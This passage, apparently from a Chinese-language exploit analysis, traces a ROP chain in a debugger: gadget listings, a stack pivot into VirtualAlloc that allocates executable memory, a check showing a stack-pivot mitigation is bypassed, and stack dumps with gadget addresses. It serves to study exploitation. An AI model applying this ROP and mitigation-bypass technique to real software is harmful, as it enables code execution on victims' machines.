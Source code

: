 ```
Gadget 2:
pop ecx;
retn

```

设置ecx寄存器的值。

```
Gadget 3:
mov dword ptr [eax], ecx;
pop ebp;
retn

```

将ecx的值移入原始堆栈中。

也就是说，ROP载荷通过攻击者的缓冲区中的数据来精心设置原始堆栈中的数据。

继续跟踪ROP载荷，最终发现stack pivot将再次被执行。

如果现在查看原始堆栈，可以看到堆栈被精心布置，stack pivot将重定向控制流到kernel32!VirtualAllocStub()。

![enter image description here](http://drops.javaweb.org/uploads/images/b0cd7461f4c8aea75673ea92e4e8c06e212072d2.jpg)

在堆栈上精心布置的VirtualAlloc的参数如下：

![enter image description here](http://drops.javaweb.org/uploads/images/4e93cc561938d24ce9bf9863cb8c79dade3ece55.jpg)

这意味着，ROP载荷将分配具有PAGE_EXECUTE_READWRITE (0x40) 和 MEM_COMMIT (0x1000)属性的0x1000字节的内存空间。

我们查看一下TEB中的StackBase和StackLimit的值。

如下所示，栈指针在StackBase和StackLimit的范围以内，因此stack pivot缓解措施将不能阻止该漏洞利用。

![enter image description here](http://drops.javaweb.org/uploads/images/57c25f6a3ac356679396e16f33bd3c1975533602.jpg)

进一步分析，在调用VirtualAllocStub()的点，堆栈布局如下：

```
1:020> dd esp
0220ec50 5e861193 00000000 00001000 00001000
0220ec60 00000040 5e861192 c30c4889 5e89a4ca
0220ec70 41414141 5e861192 9090a5f3 5e8e2e45
0220ec80 5e861192 c3084889 5e89a4ca 41414141
0220ec90 5e861192 90909090 5e8e2e45 5e861192
0220eca0 c3044889 5e89a4ca 41414141 5e861192
0220ecb0 9090ee87 5e8e2e45 5e861192 10788d60
0220ecc0 5e89a4ca 070514b8 5e861192 00000143

```

在返回地址0x5e861193处设置断点，新分配的内存地址0x1c100000存储在eax中。 接下来的ROP载荷也很有趣：

```
1:020> dd esp
0220ec64 5e861192 c30c4889 5e89a4ca 41414141
0220ec74 5e861192 9090a5f3 5e8e2e45 5e861192
0220ec84 c3084889 5e89a4ca 41414141 5e861192
0220ec94 90909090 5e8e2e45 5e861192 c3044889
0220eca4 5e89a4ca 41414141 5e861192 9090ee87
0220ecb4 5e8e2e45 5e861192 10788d60 5e89a4ca
0220ecc4 070514b8 5e861192 00000143 5e8e2e45
0220ecd4 5eef8947 068e2bf8 5eedecc1 06a50021

```
